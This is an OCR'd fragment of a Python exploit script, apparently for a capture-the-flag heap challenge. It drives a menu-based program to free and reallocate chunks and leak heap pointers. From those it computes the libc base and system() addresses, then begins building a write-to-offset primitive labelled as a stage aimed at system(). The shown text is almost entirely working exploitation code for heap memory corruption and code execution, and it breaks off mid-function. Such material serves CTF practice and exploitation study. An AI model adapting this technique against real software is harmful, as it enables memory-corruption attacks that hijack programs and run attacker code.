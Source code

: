 ```python
del_set(1)
del_set(0)

print "[+] Allocate set 0 again"
alloc_set(0, 32)

print "[+] Leak fd, bk"
r.sendline("3")
r.sendline("0")
r.sendline("0")
r.recvuntil("Found\n")
fd = r.recvline()
r.sendline("3")
r.sendline("0")
r.sendline("1")
r.recvuntil("Found\n")
bk = r.recvline()

# consolidate fastbins chunks
print "[+] Free set 0 then allocate a large chunk to consolidate fastbins chunks"
print ""
del_set(0)
alloc_set(0, 512)
del_set(0)


main_arena_top_addr = int(fd.split(" ")[2], 10) & 0xffffffff
heap_addr           = int(bk.split(" ")[2], 10) & 0xffffffff
alloc_start_addr    = heap_addr - 20 
libc_base_addr      = main_arena_top_addr - main_arena_top_offset
system_addr         = libc_base_addr + system_offset
#bin_sh_addr         = libc_base_addr + bin_sh_offset
print "main arena top address:    %#08x" % main_arena_top_addr
print "libc base address:         %#08x" % libc_base_addr
print "allocation start addresss: %#08x" % alloc_start_addr
print "system() address:          %#08x" % system_addr
print ""

#
# Stage 2, system()
#

#
# write val to offset * 4 of set 0
#
def write_value_to_offset( offset, val):
    array_size = offset + 1
    offset_now = val % array_size

    while offset_now != offset:
        array_size += 1
        offset_now = val % array_size

    # create target set with array_size
    r.sendline("1")
    r.sendline("0")
    r.sendline(str(array_size))

    # write value
    r.sendline("2")
    r.sendline("0")
    r.sendline(str(val))

```